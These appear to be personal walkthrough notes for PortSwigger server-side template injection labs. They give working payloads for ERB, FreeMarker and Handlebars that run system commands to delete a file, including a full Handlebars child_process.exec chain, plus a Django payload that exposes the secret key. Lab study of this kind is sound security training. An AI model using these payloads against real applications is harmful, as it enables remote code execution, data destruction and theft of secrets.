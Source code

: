 - hacktricks notes help a lot.
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Lab - 1: Basic server-side template injection (P)

- This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template. To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

- click view details for some of the item and return a message `Unfortunately this product is out of stock`
- the url is also as follow

```
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/1.1
```

- try to inject that message value

- `/?message={{7*7}}` not working
- `/?message=<%invalid%>` - return error
- `/?message=<%= File.delete("/home/carlos/morale.txt") %> HTTP/1.1` OR
- `/?message=<%= system("rm /home/carlos/morale.txt") %>`

---

## Lab - 2: Basic server-side template injection (code context) (P)

- This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. You can log in to your own account using the following credentials: wiener:peter

- login with `wiener`
- walkthrough the website and found a potential vulnerability at changing Prefer name and the request looks like

```
POST /my-account/change-blog-post-author-display HTTP/1.1
...

blog-post-author-display=user.name&csrf=qgNUnESXG6AbZaNQDreZKQN1wb5Z62DF
```

> this lab is not working. Try it later

---

## Lab - 3: Server-side template injection using documentation (P)

- This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. You can log in to your own account using the following credentials:
- content-manager:C0nt3ntM4n4g3r

- can use template at editing contents
- try with

```
${7*7} - working
${7*'7'} - not working
${T(java.lang.Runtime)} - error # FreeMarker template error (DEBUG mode; use RETHROW in production!) and search in google and found Spring MVC
${"freemarker.template.utility.Execute"?new()("whoami")} - will get carlos
${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
```

---

## Lab - 4: Server-side template injection in an unknown language with a documented exploit (P)

- This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

- potential vulnerability is found at `GET /?messge=something`
- try to inject with `{{7*&}}` and will get an error
- in error see the path `/usr/local/lib/node_modules/handlebar`

- found this blogpost here
- http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

```
GET /?message={{%23with+"s"+as+|string|}}
++{{%23with+"e"}}
++++{{%23with+split+as+|conslist|}}
++++++{{this.pop}}
++++++{{this.push+(lookup+string.sub+"constructor")}}
++++++{{this.pop}}
++++++{{%23with+string.split+as+|codelist|}}
++++++++{{this.pop}}
++++++++{{this.push+"return+require('child_process').exec('rm+/home/carlos/morale.txt')%3b"}}
++++++++{{this.pop}}
++++++++{{%23each+conslist}}
++++++++++{{%23with+(string.sub.apply+0+codelist)}}
++++++++++++{{this}}
++++++++++{{/with}}
++++++++{{/each}}
++++++{{/with}}
++++{{/with}}
++{{/with}}
{{/with}} HTTP/1.1
Host: 0a0b001d04bb174bc0cb8873005200c2.web-security-academy.net
...
```

---

## Lab - 5: Server-side template injection with information disclosure via user-supplied objects (P)

- This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data. To solve the lab, steal and submit the framework's secret key. You can log in to your own account using the following credentials:
- content-manager:C0nt3ntM4n4g3r

- it uses DJANGO framework (jinja template)
- {{settings.SECRET_KEY}}

---
